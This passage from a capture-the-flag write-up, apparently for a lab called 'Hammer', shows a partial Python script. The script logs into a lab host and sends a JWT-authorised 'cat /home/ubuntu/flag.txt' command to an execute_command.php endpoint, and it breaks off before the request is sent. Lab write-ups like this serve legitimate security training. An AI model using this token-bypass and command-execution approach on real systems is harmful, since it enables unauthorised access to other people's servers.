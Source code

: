 ![Decoded JWT](images/decoded-jwt.png)

A custom Python script was then created to send a command `cat /home/ubuntu/flag.txt` (location of the second flag - from the challenge page):

```python
import requests

url = 'http://10.10.198.255:1337/index.php'
headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Connection': 'close',
    'Upgrade-Insecure-Requests': '1'
}
data = {
    'email': 'tester@hammer.thm',
    'password': 'password'
}

def login(session):
   session.post(url, data=data, headers=headers)

def execute_command(session, command):
    url = 'http://10.10.198.255:1337/execute_command.php'
    headers['Authorization'] = 'Bearer <REDACTED: JWT_TOKEN>'
    headers['Content-Type'] = 'application/json'
    data = {
        'command': command
    }

```